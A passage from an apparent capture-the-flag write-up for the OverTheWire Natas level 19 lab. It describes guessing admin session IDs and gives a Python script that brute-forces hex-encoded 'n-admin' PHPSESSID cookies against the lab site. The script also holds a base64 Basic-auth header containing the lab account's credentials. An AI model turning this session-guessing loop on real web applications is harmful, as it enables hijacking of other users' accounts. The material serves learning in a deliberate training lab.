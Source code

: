    ```python
      main()

   ```
   ![alt text](image-28.png)

   6. The process works without a hitch and was able to reproduce forwards and backwards. Now I just needed a way to check all 640 guesses bin2hex for the available ID's. 

   7. That's where I came up with yet another python script to build upon these 2 smaller scripts. 
   


   ```python
      import requests
      from requests.auth import HTTPBasicAuth


      def bin2hex(h: str) -> bytes:
         # Convert to bytes
         binary_data = h.encode()  # str -> bytes
         # Convert to hex
         hex_output = binary_data.hex()

         return hex_output

      def main():
         # --- Configuration ---
         url = "http://natas19.natas.labs.overthewire.org/"
         auth = HTTPBasicAuth("natas19", "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX")  # replace with actual

         headers = {
            "Cache-Control": "max-age=0",
            "Accept-Language": "en-US,en;q=0.9",
            "Upgrade-Insecure-Requests": "1",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/140.0.0.0 Safari/537.36",
            "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
            "Accept-Encoding": "gzip, deflate, br",
            "Authorization": "Basic bmF0YXMxOTp0bndFUjdQZGZXa3hzRzRGTldVdG9BWjlWeVpUSnFKcg==",
            "Connection": "keep-alive",
            "Referer": "http://natas19.natas.labs.overthewire.org/",
         }


         for i in range(641):
            payload = bin2hex(f"{str(i)}-admin")
            cookies = {"PHPSESSID": payload}

            res = requests.get(url, auth=auth, headers=headers, cookies=cookies)

            if 'You are logged in as a regular user.' not in res.text:
                  print(f"Interesting session: {i}")
            else:
                  print(f"{i}")



      if __name__ == "__main__":
         main()
   ```
   
